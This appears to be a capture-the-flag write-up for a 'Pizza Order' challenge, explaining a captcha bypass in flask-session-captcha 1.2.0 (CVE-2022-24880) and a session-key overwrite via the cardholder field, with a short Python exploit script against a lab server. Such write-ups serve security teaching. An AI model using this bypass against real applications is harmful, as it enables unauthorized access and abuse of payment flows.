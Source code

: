 # Pizza Order
![date](https://img.shields.io/badge/date-24.01.2023-brightgreen.svg) 

## Challenge
Bad news, the local pizza dealer has implemented some sort of new captcha mechanism which seems impossible to solve, can you help us order pizza?

http://10.212.138.23:48575

Flag format: S2G{...}

## Solution
The website is a Flask application that lets users order pizza. However, the captcha is impossible to read, and hence, ordering pizza becomes impossible. So to solve this challange we need to bypass both captcha and payment.

The application is using flask-session-captch on version 1.2.0. This version has a captcha validate bypass vulnerability, [CVE-2022-24880](https://github.com/advisories/GHSA-7r87-cj48-wj45).

The function `captcha.validate()` returns `None` if no value was passed. Since the challange checks `captcha.validate() == False`, the user could send a request with an empty form to bypass it.

Secondly, we want `if session['user_type'] == 'private':` to be false. That means we need to change `session` to something else. The user can set the cardholder-field to `user_type`, which will overwrite the previous value, and spit out the flag.
```python
session[request.form.get('cardholder')] = {'card-number':request.form.get('cardNumber'),'expiration-date':request.form.get('expirationDate'), 'cvv':request.form.get('cvv')}
```
**Flag:** S2G{d41d8cd98f00b204e9800}

### Python
We need to specify the session cookie to validate the captcha, else we will recieve "Invalid captcha".

See [exploit.py](./exploit.py).
```python
import requests
import re

url = "http://10.212.138.23:48575"
headers = {
    "Cookie": "session=anything",
}

payload = {
    "cardholder": "user_type",
}

response = requests.post(url, headers=headers, data=payload)

pattern = re.search("S2G", response.text)
flag = pattern.group() + response.text[pattern.end():pattern.end()+24].strip()

print(flag)
```
